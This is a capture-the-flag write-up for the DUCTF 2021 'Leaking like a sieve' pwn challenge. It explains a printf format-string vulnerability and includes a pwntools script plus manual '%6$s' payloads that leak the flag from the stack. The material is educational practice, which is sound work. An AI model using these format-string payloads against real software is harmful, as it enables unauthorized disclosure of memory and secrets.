 # Leaking like a sieve

## Category
pwn

## Points
Dynamically allocated starting at 500, ending at 100

## Description
This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add?

Author: xXl33t_h@x0rXx

`nc pwn-2021.duc.tf 31918`

Files: `hellothere`

## Keywords
pwntools, Ghidra, printf

## Notes
Calling the server asked for our name, and then echoed it back at us. It looked like this would go on forever, so I hit Ctrl-C to stop it:
```
$ nc pwn-2021.duc.tf 31918
What is your name?
Fred

Hello there, Fred

What is your name?
Jim

Hello there, Jim

What is your name?
^C
```

I opened the executable in Ghidra, and looked at the `main()` function:
```c
void main(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [32];
  char local_38 [40];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  buffer_init();
  __stream = fopen("./flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts(
        "The flag file isn\'t loading. Please contact an organiser if you are running this on the shell server."
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_38,0x20,__stream);
  do {
    puts("What is your name?");
    fgets(local_58,0x20,stdin);
    printf("\nHello there, ");
    printf(local_58);
    putchar(10);
  } while( true );
}
```

Here we can see two arrays - `local_58` and `local_38`. The user's input is stored in `local_58`. Since it uses `fgets()` to get the user input, it would be difficult to overflow this buffer, and as the flag is loaded into `local_38`, we don't want to overwrite that!

One thing we can see is that the buffer is passed to `printf()` without a format string. A usual call to `printf` would be something like: `printf("%d\n", x);` where the value of `x` would replace the `%d` in the format string (`%d` is a placeholder for a signed decimal integer). If we didn't specify `x`, `printf()` would try to fulfil its format specifiers from memory.

As there is no format string when our name is printed out, we can specify one in our input, and this can expose items on the stack to us for reading and even writing to.

I have [some notes on printf()](../GeneralNotes/printf.md), but this is a relatively simple exploit. We simply want to read a string from the stack. `%s` is used to treat parameters as strings, so we can just try printing strings from various positions in the stack and see if it is our flag.

In `printf()`, we can change which parameter applies to a format string with `%n$`. For example:
```c
  printf("%3$d, %2$d, %1$d\n", 7, 8, 9);
```
would output:
```
9, 8, 7
```

So by specifying our format specifier of `%n$s` and having no parameters, we can print out any strings in various memory locations. By putting this in a loop, we can plough through memory printing out strings.

> *Note*: various items on the stack may not be printable strings, and may crash the program. If you get a segmentation fault, just try another location

I wrote a Python script with `pwntools` to test this:
```python
from pwn import *

# 10 locations is probably enough for this test
for i in range(1, 11):
  print(f"Attempt with: {i}")

  # Test against the server
  p = remote('pwn-2021.duc.tf', 31918)

  # Get the question and print it
  line = p.recvline()
  print(line)

  # Create our string to output strings from memory
  send_str = f"%{i}$s"
  print(f"Sending {send_str}")
  p.sendline(send_str)

  # Output whatever we get back
  line = p.recv()
  print(line)

  # Close the connection and restart, as we may have had a
  # segmentation fault
  p.close()
```

Running this against the server gives us the output:
```
$ python3 get_flag.py 
Attempt with: 1
b'What is your name?\n'
Sending %1$s
b'\nHello there, \nHello there, \n\nWhat is your name?\n'
Attempt with: 2
b'What is your name?\n'
Sending %2$s
b'\nHello there, \n\nWhat is your name?\n'
Attempt with: 3
b'What is your name?\n'
Sending %3$s
b'\nHello there, (null)\n\nWhat is your name?\n'
Attempt with: 4
b'What is your name?\n'
Sending %4$s
b'\nHello there, '
Attempt with: 5
b'What is your name?\n'
Sending %5$s
b'\nHello there, \xc0\x94\xab\xder\x7f\n\nWhat is your name?\n'
Attempt with: 6
b'What is your name?\n'
Sending %6$s
b'\nHello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}\n\nWhat is your name?\n'
Attempt with: 7
b'What is your name?\n'
Sending %7$s
b'\nHello there, \x98$\xad\xfb\n\nWhat is your name?\n'
Attempt with: 8
b'What is your name?\n'
Sending %8$s
b'\nHello there, '
Attempt with: 9
b'What is your name?\n'
Sending %9$s
b'\nHello there, '
Attempt with: 10
b'What is your name?\n'
Sending %10$s
b'\nHello there, '
```

We can see when we send `%6$s` we get the flag!

We can get the same result manually, now we know the location, by answering `%6$s` to the question:
```
$ nc pwn-2021.duc.tf 31918
What is your name?
%6$s

Hello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}

What is your name?
^C
```

